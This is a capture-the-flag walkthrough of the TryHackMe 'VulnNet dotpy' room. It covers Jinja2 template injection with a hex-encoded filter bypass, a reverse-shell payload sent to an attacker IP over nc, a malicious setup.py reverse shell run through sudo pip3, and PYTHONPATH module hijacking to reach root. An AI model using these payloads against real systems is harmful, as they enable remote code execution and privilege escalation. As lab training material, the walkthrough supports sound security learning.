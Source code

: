 # 70 - VulnNet dotpy (SSTI / SSTI Bypass)

Room Link --> [https://tryhackme.com/room/vulnnetdotpy](https://tryhackme.com/room/vulnnetdotpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
gobuster dir -u http://10.10.82.145:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403

/login
/register
/logout
```
{% endcode %}

We registered a new user and login.

I noticed whenever i enter a non existent page it gets injected into the page.

### SSTI exploitation

[http://10.10.82.145:8080/robots](http://10.10.82.145:8080/robots.txt)

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And some characters are blackliisted.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start testing for SSTI (Server Side Template Injection) by going to [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#templates-injections) since we know the backend is using Python the guess here will be the Template in use here is Jinja2

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

This worked:

```bash
{{7*'7'}} would result in 7777777

# go to:
http://10.10.82.145:8080/{{7*'7'}}
```

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

SSTI Resource --> [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

But there are some blacklisted characters we need to find them. We can just cause the program to error out.

Since this is executing python code i just added "print" in the payload.

`http://10.10.82.145:8080/{{print(7*'7')}}`

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

We confirmed the Template Language `jinja2.exceptions.UndefinedError` .

Then i clicked the 1st error:

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the blacklisted characters.

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# blacklisted characters.
. _ [ ]
```

### Bypassing Filters

We use this resource that uses [Python Literal Hex Encoding](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) for bypassing those filters.

<figure><img src=".gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### payload used

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we enter our hex encoded payload in the 'PAYLOAD' field.
</strong><strong>/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('PAYLOAD')|attr('read')()}}
</strong></code></pre>

We use cyberchef to hex encode our payload:

{% code overflow="wrap" %}
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9002 >/tmp/f

# hex encoded.
\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66
```
{% endcode %}

<figure><img src=".gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Final Payload

{% code overflow="wrap" %}
```bash
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Setup NC listener, then we copy this payload and use Bursuite repeater to send this request.

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

And i got shell on NC listener:

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to system-adm user

`sudo -l` and we can execute `/usr/bin/pip3 install *` as system-adm

So we check gtfobin for exploitation:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# make a dir/
mkdir dking && cd dking

# create a .py file that executes a rev shell.
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.18.88.214",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' >  setup.py

# setup nc listener
nc -nvlp 7777

# execute it.
sudo -u system-adm /usr/bin/pip3 install .
```
{% endcode %}

We got shell.

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` and we can execute `/usr/bin/python3 /opt/backup.py` as root.

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

```bash
# content of the file.
system-adm@vulnnet-dotpy:/opt$ cat backup.py 
from datetime import datetime
from pathlib import Path
import zipfile
```

We can see the file is calling the `zipfile` library and since we have `SETENV` priv we can set a fake PATHONPATH env variable with a malicious .py file.

```bash
# the malicious library.
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py

# executing it.
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

And we got root.

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Done!


